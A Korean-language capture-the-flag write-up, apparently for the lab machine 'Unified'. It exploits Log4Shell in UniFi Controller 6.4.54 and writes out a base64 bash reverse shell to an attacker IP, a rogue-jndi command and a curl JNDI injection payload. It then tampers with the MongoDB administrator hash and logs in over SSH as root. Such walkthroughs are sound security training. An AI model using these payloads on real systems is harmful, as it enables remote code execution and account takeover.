# Unified

## 개요

UniFi Network Controller 6.4.54에서 발생하는 Log4Shell(CVE-2021-44228) 취약점을 이용해 초기 접근권을 획득하고, MongoDB에 직접 접근해 관리자 자격증명을 변조한 뒤 SSH를 통해 root 권한까지 상승하는 머신이다. 이 취약점은 Java의 Log4j 라이브러리가 JNDI 표현식을 필터링 없이 로깅할 때 발생하며, 2021년 말 전 세계적으로 대규모 피해를 야기한 실제 취약점이다.

---

## 대상 정보

| 항목 | 내용 |
|------|------|
| 머신 이름 | Unified |
| OS | Linux (Ubuntu 20.04.3 LTS) |
| IP | 10.129.22.94 |
| 난이도 | Very Easy (Tier 2) |
| 취약점 | CVE-2021-44228 (Log4Shell) |
| 주요 기술 | JNDI Injection, LDAP, MongoDB, SSH |

---

## Enumeration

### Nmap 스캔

```bash
nmap -sC -sV $IP
```




열린 포트는 총 4개다.

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 8.2p1 |
| 6789/tcp | ibm-db2-admin? | UniFi inform 포트 |
| 8080/tcp | http-proxy | HTTP → 8443 리다이렉트 |
| 8443/tcp | ssl/https | UniFi Network 관리 UI |

8080 포트는 실제 서비스가 아닌 8443으로의 리다이렉트 역할만 한다. 8443에서 SSL 인증서의 `commonName=UniFi`, `organizationName=Ubiquiti Inc.`를 확인할 수 있다.

### 버전 확인

UniFi Controller는 인증 없이 접근 가능한 `/status` 엔드포인트를 노출한다.

```bash
curl -sk https://$IP:8443/status
```



`server_version: 6.4.54`를 확인했다. 이 버전은 Log4Shell에 취약하다.

---

## 취약점 공격

### CVE-2021-44228 (Log4Shell) 개요



UniFi 6.4.54는 로그인 요청의 `remember` 파라미터를 Log4j로 로깅한다. Log4j는 `${jndi:ldap://...}` 형태의 문자열을 그대로 실행하므로, 공격자가 제어하는 LDAP 서버에 연결을 유도할 수 있다.

**공격 체인:**

```
curl 페이로드 전송
→ UniFi Log4j가 remember 파라미터 로깅
→ JNDI가 공격자 LDAP 서버(1389)에 접속
→ LDAP가 공격자 HTTP 서버(8000)로 리다이렉트
→ 피해자 서버가 악성 클래스 다운로드 및 실행
→ 리버스쉘이 공격자 nc(4444)로 연결
```

### rogue-jndi 설치

marshalsec은 Java 17 환경에서 원격 클래스 로딩이 차단되어 동작하지 않는다. Java 버전 제약 없이 동작하는 rogue-jndi를 사용한다.

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package -DskipTests
```

### 리버스쉘 페이로드 인코딩

리버스쉘 명령어를 base64로 인코딩한다. 공백이 포함된 명령어를 `Runtime.exec()`에 그대로 전달하면 파싱 오류가 발생하기 때문이다.

```bash
echo 'bash -i >& /dev/tcp/10.10.14.167/4444 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjcvNDQ0NCAwPiYxCg==
```

### rogue-jndi 실행



```bash
java -jar target/RogueJndi-1.1.jar \
  --command "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjcvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" \
  --hostname "10.10.14.167"
```

rogue-jndi는 LDAP 서버(1389)와 HTTP 서버(8000)를 동시에 띄운다.

### nc 리스너 준비

```bash
nc -lvnp 4444
```

### 페이로드 전송



```bash
curl -sk https://10.129.22.94:8443/api/login -X POST \
  -H 'Content-Type: application/json' \
  -d '{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.167:1389/o=tomcat}","strict":true}'
```

`remember` 파라미터에 JNDI 페이로드를 삽입한다. 서버가 이 값을 Log4j로 로깅하는 순간 LDAP 콜백이 발생한다.

### 쉘 획득



`unifi@unified` 권한으로 리버스쉘이 연결된다.

---

## 초기 접근 이후

### MongoDB 포트 확인

UniFi Controller는 MongoDB를 내부 DB로 사용한다. 기본 포트(27017)가 아닌 커스텀 포트를 확인한다.

```bash
ps aux | grep mongo
```



`--port 27117`로 실행 중임을 확인했다. `--bind_ip 127.0.0.1`이므로 외부에서는 접근 불가능하고 내부에서만 접근 가능하다.

### 데이터베이스 목록 확인

```bash
mongo --port 27117 --eval "db.adminCommand({listDatabases:1})"
```



UniFi의 메인 데이터베이스는 `ace`다.

### 관리자 계정 해시 덤프

```bash
mongo --port 27117 ace --eval "db.admin.find().pretty()"
```



`administrator` 계정의 `x_shadow` 필드에 SHA-512 해시가 저장되어 있다. 크랙 대신 해시를 직접 교체하는 방법을 사용한다.

### 비밀번호 해시 교체

새 비밀번호의 SHA-512 해시를 생성한다.

```bash
openssl passwd -6 newpassword
# $6$JPZyQ8c/a09yoLAm$ApdxuzrF5i003e8Y5UZhQLZ886QsRg8yj3tel1UMEV8fP2glWKtOPIaKKbnQEkfoSGFe2DY4nmcnBolzCTKZ.0
```

MongoDB `update()` 함수로 해시를 교체한다.

```bash
mongo --port 27117 ace --eval 'db.admin.update({"name":"administrator"},{$set:{"x_shadow":"$6$JPZyQ8c/a09yoLAm$ApdxuzrF5i003e8Y5UZhQLZ886QsRg8yj3tel1UMEV8fP2glWKtOPIaKKbnQEkfoSGFe2DY4nmcnBolzCTKZ.0"}})'
```



`nModified: 1` 확인.

### UniFi 웹 UI 로그인



```
https://10.129.22.94:8443/manage
ID: administrator
PW: newpassword
```



### root SSH 자격증명 획득

Settings > Site > Device Authentication 섹션에서 SSH 자격증명을 확인한다.





| 항목 | 값 |
|------|-----|
| Username | root |
| Password | NotACrackablePassword4U2022 |

### SSH root 접속

```bash
ssh root@10.129.22.94
```



root 권한 획득 완료.

---

## 플래그 획득

```bash
cat /home/michael/user.txt
cat /root/root.txt
```




---

## 취약점 원인 분석

### 근본 원인

Log4j 2.x는 로깅 대상 문자열에서 `${...}` 표현식을 자동으로 처리하는 Message Lookup 기능을 갖고 있다. JNDI Lookup을 통해 외부 리소스를 참조할 수 있으며, 입력값 검증 없이 이를 실행하기 때문에 공격자가 제어하는 원격 서버에서 임의 코드를 로드하고 실행할 수 있다.

UniFi 6.4.54는 로그인 요청의 `remember` 파라미터를 Log4j로 로깅하는 코드 경로가 존재해 이 취약점에 직접 노출된다.

### 실제 환경에서의 위험성

Log4Shell은 CVSS 10.0(Critical) 등급을 받은 취약점이다. Log4j는 Java 생태계에서 사실상 표준 로깅 라이브러리로, Apache, VMware, Cisco, Ubiquiti 등 수천 개의 제품에 포함되어 있어 영향 범위가 전례 없이 광범위했다. 인증 없이도 트리거 가능하고, 페이로드가 HTTP 헤더나 요청 본문 어디에나 삽입될 수 있어 방어가 어렵다. 패치되지 않은 시스템은 원격 코드 실행, 정보 유출, 측면 이동 등 전방위적 위협에 노출된다.

---

## 핵심 정리

| 단계 | 기술 | 도구 |
|------|------|------|
| 정보 수집 | 포트 스캔, 버전 확인 | nmap, curl |
| 취약점 식별 | CVE-2021-44228 Log4Shell | - |
| 초기 접근 | JNDI LDAP 인젝션, 리버스쉘 | rogue-jndi, nc |
| 내부 열거 | 프로세스 확인, MongoDB 접근 | ps, mongo |
| 권한 상승 | 관리자 해시 교체, SSH 자격증명 획득 | openssl, mongo |
| 목표 달성 | root SSH 접속, 플래그 획득 | ssh |
